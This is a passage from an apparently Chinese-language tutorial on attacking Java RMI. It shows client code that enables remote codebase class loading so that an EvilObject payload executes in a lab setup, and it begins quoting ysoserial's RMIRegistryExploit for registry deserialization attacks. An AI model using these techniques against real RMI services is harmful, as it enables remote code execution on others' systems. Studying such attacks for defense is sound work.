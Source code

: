 ```java
            //绑定远程对象到Registry
            reg.bind("Services", services);
        } catch (RemoteException e) {
            e.printStackTrace();
        } catch (AlreadyBoundException e) {
            e.printStackTrace();
        }
    }
}
```

需要注意的是，恶意类应当也实现下Serializable接口，否则客户端调用会报错，而且也不会去请求codebase，但这不影响RCE。在异常产生之前，服务端代码执行的过程已经发生了。紧接着客户端代码：

```java
import java.lang.SecurityManager;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class testRMI {
    public static void main(String[] args) throws Exception {
        //如果需要使用RMI的动态加载功能，需要开启RMISecurityManager，并配置policy以允许从远程加载类库
        System.setProperty("java.security.policy", testRMI.class.getClassLoader().getResource("java.policy").getFile());
        System.setProperty("java.rmi.server.useCodebaseOnly","false");
        SecurityManager securityManager = new SecurityManager();
        System.setSecurityManager(securityManager);

        Registry registry = LocateRegistry.getRegistry("10.10.10.1", 9999);
        // 获取远程对象的引用
        Services services = (Services) registry.lookup("Services");
        services.sendMessage("everybody");
    }
}
```

这里的场景和之前描述的一致，10.10.10.136是一台linux主机，上面开启了http的8000端口，同时也是RMI客户端。10.10.10.1是一台win10主机，也是RMI服务端，它同时提供了codebase的URL地址。客户端在调用方法时因其不知返回值EvilObject类的定义，所以会按照codebase URL去找class文件。服务端依据客户端提供的参数在自己的JVM上实例化对象并执行方法调用，在实例化EvilObject对象时执行了payload。

![](port8000.jpg)

### 攻击server——方法3，攻击Registry

其实，只要知道注册机的IP、端口，客户端也可以调用`bind()`函数绑定RMI对象，这也是存在这种攻击方式的原因。下面分析的攻击代码源自ysoserial工具的`exploit/RMIRegistryExploit`，主要代码如下：

```java
/**
**	exploit/RMIRegistryExploit.java
**/

public static void main(final String[] args) throws Exception {
    final String host = args[0];
    final int port = Integer.parseInt(args[1]);
    final String command = args[3];
    Registry registry = LocateRegistry.getRegistry(host, port);
    final String className = CommonsCollections1.class.getPackage().getName() +  "." + args[2];
    final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(className);

    // 测试RMI registry连接状态
    try {
        registry.list();
    } catch(ConnectIOException ex) {
```